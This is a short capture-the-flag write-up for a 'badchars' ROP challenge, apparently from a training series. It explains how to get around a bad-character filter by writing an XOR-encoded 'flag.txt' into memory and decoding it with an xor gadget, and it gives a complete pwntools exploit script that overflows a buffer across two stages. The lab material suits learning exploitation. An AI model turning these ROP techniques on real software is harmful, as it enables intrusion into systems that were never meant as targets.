

the challenge check for every bytes of the input if there exist 'x', 'g', 'a' or '.', which meant we cant just do something like print_file(./flag.txt)

no bypass this, we can use xor, which coveniently exist as a gadget



the rest of the challenge is the same as [write4](write4.md)

beware, as the rop chain may be too long for the buffer to hold, necessitate the need to restart the challenge

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./badchars")

context.binary = exe
context.log_level = "debug"

script = '''
b*pwnme+267
c
'''

def main():
    r = gdb.debug(exe.path, gdbscript=script)
    # r = process(exe.path)

    pop_rdi=0x00000000004006a3
    pop_r12_pop_r13_pop_r14_pop_r15=0x000000000040069c
    movIr13I_r12=0x0000000000400634
    xorIr15I_r14b=0x0000000000400628
    buffer=b"A"*0x20

    payload=flat(
        buffer,
        0x601800,

        pop_r12_pop_r13_pop_r14_pop_r15,
        0x421851575a501918,
        0x601800,
        0,
        0,
        movIr13I_r12,

        pop_r12_pop_r13_pop_r14_pop_r15,
        0x424e,
        0x601808,
        0,
        0,
        movIr13I_r12,

        pop_r12_pop_r13_pop_r14_pop_r15,
        0,
        0,
        0x36,
        0x601800,
        xorIr15I_r14b,
        pop_r12_pop_r13_pop_r14_pop_r15,
        0,
        0,
        0x36,
        0x601801,
        xorIr15I_r14b,
        pop_r12_pop_r13_pop_r14_pop_r15,
        0,
        0,
        0x36,
        0x601802,
        xorIr15I_r14b,
        pop_r12_pop_r13_pop_r14_pop_r15,
        0,
        0,
        0x36,
        0x601803,
        xorIr15I_r14b,
        pop_r12_pop_r13_pop_r14_pop_r15,
        0,
        0,
        0x36,
        0x601804,
        xorIr15I_r14b,

        exe.plt["pwnme"]
    )

    r.recvuntil("> ")
    r.send(payload)

    payload=flat(
        buffer,
        0x601800,

        pop_r12_pop_r13_pop_r14_pop_r15,
        0,
        0,
        0x36,
        0x601805,
        xorIr15I_r14b,
        pop_r12_pop_r13_pop_r14_pop_r15,
        0,
        0,
        0x36,
        0x601806,
        xorIr15I_r14b,
        pop_r12_pop_r13_pop_r14_pop_r15,
        0,
        0,
        0x36,
        0x601807,
        xorIr15I_r14b,
        pop_r12_pop_r13_pop_r14_pop_r15,
        0,
        0,
        0x36,
        0x601808,
        xorIr15I_r14b,
        pop_r12_pop_r13_pop_r14_pop_r15,
        0,
        0,
        0x36,
        0x601809,
        xorIr15I_r14b,

        pop_rdi,
        0x601800,
        exe.plt["print_file"]
    )

    r.recvuntil("> ")
    r.send(payload)

    r.interactive()

if __name__ == "__main__":
    main()

```